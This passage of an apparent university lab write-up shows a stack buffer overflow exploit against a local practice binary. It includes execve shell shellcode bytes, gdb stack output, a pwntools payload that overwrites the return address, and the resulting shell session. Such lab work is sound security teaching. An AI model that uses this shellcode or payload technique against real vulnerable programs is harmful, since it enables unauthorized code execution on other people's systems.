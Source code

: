 In our `objdump` output we can see the byte sequence needed to be injected as shellcode.

`\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

The shellcode is 23 bytes long so it fit perfectly into the 50 byte buffer.
To overflow the buffer and set the return address to that of the start address of the buffer we first started the program with a known payload, e.g. `b'\x41' * 50`, and look at the stack in gdb to identify the starting address. 

```bash
0x00007fffffffd2c0│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"	← $rsp
0x00007fffffffd2c8│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0x00007fffffffd2d0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0x00007fffffffd2d8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAA"
0x00007fffffffd2e0│+0x0020: "AAAAAAAAAAAAAAAAAA"
0x00007fffffffd2e8│+0x0028: "AAAAAAAAAA"
0x00007fffffffd2f0│+0x0030: 0x0000000000004141 ("AA"?)
0x00007fffffffd2f8│+0x0038: 0x0000000000406df0  →  0x0000000000402800  →  <__do_global_dtors_aux+0000> endbr64 
```
We can see that the starting address of the buffer is `0x00007fffffffd2c0`. With this information the following payload was crafted:

```Python
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload = shellcode + b'\x90' * (72 - len(shellcode)) + p64(0x7fffffffd2c0)
```
First the shellcode is placed in the buffer, then the buffer is overflown using the `\x90` (nop) bytes up to the offset where we need to write the wanted return address, lastly the return address is written to the stack.

When executed the payload delivers the following succesfull execution of a shell.

```bash
$ python3 attack.py
[*] '/home/philip/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato2/potato'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[+] Starting local process '/home/philip/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato2/potato': pid 313530
[!] ASLR is disabled!
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/philip/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato2/potato', '313530', '-x', '/tmp/pwnqkme5pqz.gdb']
[+] Waiting for debugger: Done
b'starting up (pid 313530)\nreading file userlist\nhandle_client\ncmd> '
b'Welcome!\nusername: password: searching for user ...\nchecking password ...\nYou are authorized.\n\ncmd> '
[*] Switching to interactive mode
What is the name > Name changed.
$ $ whoami
philip
$ $ id philip
uid=1000(philip) gid=1000(philip) groups=1000(philip),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),123(lxd),984(docker),128(libvirt)
```
We can clearly see that we are no longer bound to the executed program but rather have full shell access with the rights of the user `philip`. 
